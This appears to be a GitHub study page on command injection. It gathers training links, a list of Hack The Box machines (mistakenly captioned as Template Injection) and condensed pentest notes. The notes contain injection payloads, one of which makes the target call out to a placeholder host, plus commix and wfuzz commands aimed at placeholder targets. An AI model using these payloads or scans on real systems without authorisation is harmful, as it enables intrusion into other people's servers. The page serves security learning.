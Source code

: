 ![image](https://github.com/user-attachments/assets/8baebb77-9b9e-4876-9547-a20fb8efa7b8)

# Command Injection

## Training Resources
---

### Courses

*Free*
- [PortSwigger Academy - Command Injection](https://portswigger.net/web-security/os-command-injection)

*Paid*
- [HTB - Whitebox Pentesting 101: Command Injection](https://academy.hackthebox.com/course/preview/whitebox-pentesting-101-command-injection)
- [HTB - Command Injection](https://academy.hackthebox.com/course/preview/command-injections)
- [THM - Command Injection](https://tryhackme.com/r/room/oscommandinjection)

#

### HTB Machines
*These machines are tagged as containing Template Injection by HTB, the difficulty refers to the box as a whole and not necessarily the Template Injection element.*

| Machine Name | Difficulty | Completed |
| -- | -- | -- |
| Spark | Very Easy | |
| Prequel | Very Easy | |
| Enlightenment | Very Easy | |
| Bashed | Easy | |
| Wind | Easy | |
| Spectra | Easy | |
| TwoMillion | Easy | |
| Secret | Easy | |
| ScriptKiddie | Easy | |
| RouterSpace | Easy | |
| Referrals | Easy | |
| Optimum | Easy | |
| OpenAdmin | Easy | |
| Previse | Easy | |
| Photobomb | Easy | |
| Headless | Easy | |
| Haystack | Easy | |
| Sea | Easy | |
| Sau | Easy | |
| Liberty | Easy | |
| Flipper | Easy | |
| Click | Easy | |
| Networked | Easy | |
| WindHose | Medium | |
| Union | Medium | |
| Sewers | Medium | |
| RedCross | Medium | |
| Meta | Medium | |
| Mentor | Medium | |
| Jarvis | Medium | |
| Investigation | Medium | |
| Haircut | Medium | |
| FluxCapacitor | Medium | |
| Feldspar | Medium | |
| Extension | Medium | |
| EvilCUPS | Medium | |
| Europa | Medium | |
| Dynstr | Medium | |
| Droider | Medium | |
| Cronos | Medium | |
| Craft | Medium | |
| Carrier | Medium | |
| Catch | Medium | |
| Bastard | Medium | |
| Awkward | Medium | |
| AI | Medium | |
| Monitors | Hard | |
| Visor | Hard | |
| Admirer | Hard | |
| Charon | Hard | |
| EarlyAccess | Hard | |
| Cup | Hard | |
| Formula | Hard | |
| FormulaX | Hard | |
| Identifier | Hard | |
| Holiday | Hard | |
| Helpline | Hard | |
| Mailroom | Hard | |
| Phoenix | Hard | |
| Oouch | Hard | |
| Spooktrol | Hard | |
| Stacked | Insane | |
| Sekhmet | Insane | |
| Reddish | Insane | |
| Perspective | Insane | |
| Multimaster | Insane | |
| Mischief | Insane | |
| Hackback | Insane | |
| Fortune | Insane | |
| Smasher2 | Insane | |
| Fingerprint | Insane | |
| Derailed | Insane | |
| CrossFit | Insane | |
| Bankrobber | Insane | |
| Ariekei | Insane | |


### Other Resources
---
**PT Guides**
- [HackTrciks - Command Injection](https://book.hacktricks.wiki/en/pentesting-web/command-injection.html)
#
**Methodologies**
- [OWASP Methodology - Command Injection](https://owasp.org/www-project-web-security-testing-guide/stable/4-Web_Application_Security_Testing/07-Input_Validation_Testing/12-Testing_for_Command_Injection)
#
**[Arsenal](https://github.com/Orange-Cyberdefense/arsenal/tree/master) Tool Cheatsheets**
- 
#
**Wordlists**
- [SecLists - Command Injection Commix](https://github.com/danielmiessler/SecLists/blob/master/Fuzzing/command-injection-commix.txt)
- [Quick Command Injection Check](https://github.com/ThomasRose23/Wordlists_and_Payloads/blob/main/Web_App/simple_command_injection)
- [Quick Blind Command Injection Check](https://github.com/ThomasRose23/Wordlists_and_Payloads/blob/main/Web_App/simple_blind_command_injection)
#
**Command Injection Prevention**
- [OWASP Command Injection Defence Cheatsheet](https://cheatsheetseries.owasp.org/cheatsheets/OS_Command_Injection_Defense_Cheat_Sheet.html)
#


## Condensed Notes
This is a condensed version of the notes I used during OSWA and are by no means complete. Make your own notes and methodology, building off these basic steps. 

- Understand the OS you're attacking.
- Identify inputs into the application accepting alphanumeric characters. Look for functionality that could interact with the OS and likely to be suceptible to command injection, such as:
  - Converting media files
  - File archiving
  - Making backups
  - Anything using non-web protocols
- Determine if we can view the response to any injection attempt, if not test for blind command injection  
- Manually test by entering payloads into potentially vulnerable fields, observe the responses closely for clues of Command Injection. 
  - Try delimeters (|| && ; \n) and see if there are errors produced. Can you chain additional commands after the delimeter and observe the output. 
  - Try blind injection payloads such as
```bash
;time+20;
;curl+http://ip:port/path;
```
- Commix is a tool than can automate the finding of Command Injection vulnerabilities, very similar to SQLMap and easy to use. Basic usage can be seen below but read the docs for more control.
```bash
python commix.py --url="http://site.com/path/to/vuln/#" --data="id=1&Submit=submit" --cookie="PHPSESSID=nq30op434117mo7o2oe5bl7is4"
```
- Use other automated tools to discover Command Injection:
  - Wfuzz - filter out responses using -hc (response code) and -hh response size
```bash
# GET Request
wfuzz -c -z file,<path-to-wordlist> -u "http://site.com/index.php?id=FUZZ"

# POST Request

wfuzz -c -z file,<path-to-wordlist> -u "http://site.com/index.php" -d "id=FUZZ"
```
